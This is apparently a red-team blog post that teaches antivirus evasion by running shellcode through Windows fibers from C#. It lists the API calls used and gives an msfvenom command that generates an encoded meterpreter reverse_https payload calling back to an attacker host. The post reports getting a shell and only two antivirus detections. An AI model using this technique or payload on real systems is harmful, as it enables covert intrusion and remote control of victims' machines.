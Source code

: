 ```yaml
---
layout: post
title: 'AV Evasion Part 3: Fibers'
category: evasion
---
```


I was talking to some developer friends the other day about some of their personal projects and one of them mentioned fiber usage.  This was a new concept to me and asked what they were talking about and it lead down a big rabbit hole of research.

To summarize fibers, a fiber can be summarized as a thread inside of a thread.  A thread can be thought of as a way of an application to run action in parralel.  A fiber is this concept again but smaller.  Better more in depth explanation of threads can be found [here](https://docs.microsoft.com/en-us/dotnet/standard/threading/threads-and-threading) and official documentation of fibers can be found [here](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)

If threads sound familiar to the reader, you may recall the [CreateThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) Windows API used in [AV Evasion Part 1](https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/).  Fibers give us an alternative way to execute shellcode on a host in a manner that AntiVirus is not used to scanning.


First, let's get a baseline from our first payload using threads.
<img src='https://0xhop.github.io/images/evasion3/baseline.PNG'>

10/26 isn't horrible and the payload aged surprisingly well.

We will continue to use c# in this demonstration as it is easy to work in and well documented.  languages such as Boo and Nim work just as well.
Just like the first post, we will use functions from [P/Invoke](https://pinvoke.net).  The following functions will be used. 


 * [ConvertThreadToFiber](https://pinvoke.net/default.aspx/kernel32/ConvertThreadToFiber.html) - This creates a fiber out of the main Thread.
 * [VirtualAlloc](http://pinvoke.net/default.aspx/kernel32/VirtualAlloc.html) - Create an executable piece of memory.
 * [CreateFiber](http://pinvoke.net/default.aspx/kernel32/CreateFiber.html) - To spawn and a fiber for our shellcode after VirtualAlloc allocates a buffer. 
 * [SwitchToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber) - To execute our fiber and shellcode.  As of the time of writing this, SwitchToFiber does not have a P/Invoke entry but it is easy enough to create our own as it only takes one argument.
 
We will reuse the code from [AV Evasion Part 1](https://github.com/0xHop/Evasion1) as a base and remove the check for the process name.


First, let's update the function imports and get the required functions listed above inside our code as shown in the below image.  The DllImport call was modified as P/Invoke could not resolve the lpFiber StartAddress type so we opt to use an IntPtr.  

<img src='https://0xhop.github.io/images/evasion3/imports.PNG'>

We can now implement the calls to create our runner.

First we generate our shellcode.  This example will use metasploit.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth1 LPORT=443 -f csharp -e x64/xor_dynamic
```


The first thing we need to do is declare our master thread as a fiber.  We make our call to ConvertThreadToFiber to start with a null Int Pointer.  A null value tells the function to convert the main thread to a fiber.
The code stays the same for a bit until we get to our section to create the fiber.  We will provide the following arguments.  A 0 for the function to calculate the stack size for us, a pointer to our VirtualAlloc call as the starting memory address to create the Fiber and a IntPtr.Zero as we don't need any parameters.

Finally we will execute our fiber with SwitchToFiber with an argument to our newly created fiber.

The final code can be viewed below.
<img src='https://0xhop.github.io/images/evasion3/code.PNG'>

Finally the moment of truth, does it work.  Thankfully, it seemed to call back to metasploit for a shell
<img src='https://0xhop.github.io/images/evasion3/MSF.PNG'>

This is cool and all, but how is it doing against AntiVirus?
<img src='https://0xhop.github.io/images/evasion3/Results.PNG'>

Only 2 detection, GREAT SUCCESS!

This shows the power of finding new methods of doing things.  It only takes a bit of creativity to evade AntiVirus and is in serious need for red teams hiring right now.


This concluses part three of my AV Evasion writeup. 

"Hop" to see everyone next time. 
